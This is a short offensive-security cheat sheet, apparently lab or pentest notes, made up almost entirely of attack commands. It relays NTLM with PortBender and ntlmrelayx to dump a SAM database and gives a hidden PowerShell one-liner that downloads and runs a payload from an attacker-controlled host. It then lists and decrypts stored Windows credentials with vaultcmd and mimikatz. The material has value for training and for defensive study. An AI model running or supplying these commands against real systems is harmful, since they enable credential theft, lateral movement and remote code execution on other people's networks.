 ### NTLM Relay

NTLM Relay with PortBender load driver first

```
upload C:\Tools\PortBender\WinDivert64.sys
```

Next, load `PortBender.cna` from `C:\Tools\PortBender` - this adds a new `PortBender` command to the console. Redirect 445 traffic to 8445

```
PortBender redirect 445 8445
```

forward this to kali server

```
rportfwd 8445 127.0.0.1 445
```

confirm socks is on

```
socks 1080
```

NTLM relay to server to dump SAM database

```
proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.10.102 -smb2support --no-http-server --no-wcf-server
```

get command execution

```
proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://10.10.10.102 -smb2support --no-http-server --no-wcf-server -c
'powershell -nop -w hidden -c "iex (new-object net.webclient).downloadstring(\"http://10.10.10.100:8080/b\")"'
```

### Credential Manager

List credentials stored

```
ls C:\Users\pickle.rick\AppData\Local\Microsoft\Credentials

run vaultcmd /listcreds:"Windows Credentials" /all

mimikatz vault::list
```

To decrypt the credential, we need to find the master encryption key.

```
mimikatz dpapi::cred /in:C:\Users\pickle.rick\AppData\Local\Microsoft\Credentials\<blob>
```
